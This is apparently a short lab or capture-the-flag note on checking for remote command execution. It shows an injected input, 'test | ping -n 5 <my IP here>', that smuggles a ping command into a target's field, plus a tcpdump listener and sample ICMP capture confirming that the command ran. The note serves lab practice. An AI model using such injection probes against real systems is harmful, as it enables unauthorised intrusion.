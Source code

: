 mostly using this to check if there is RCE

now


we give the input on taget

On target system:
```
test | ping -n 5 <my IP here> 
```

On my local system:
```
tcpdump -i tun0 icmp
```

now after i put he ping command on target system i must get something like this

```
─(root💀kali)-[~/Desktop/THM]
└─# tcpdump -i tun0 icmp               
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:24:21.790481 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 357, length 40
22:24:21.790502 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 357, length 40
22:24:22.850391 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 358, length 40
22:24:22.850426 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 358, length 40
22:24:23.866375 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 359, length 40
22:24:23.866414 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 359, length 40
22:24:24.882285 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 365, length 40
22:24:24.882319 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 365, length 40
22:24:25.896877 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 366, length 40
22:24:25.896904 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 366, length 40
```
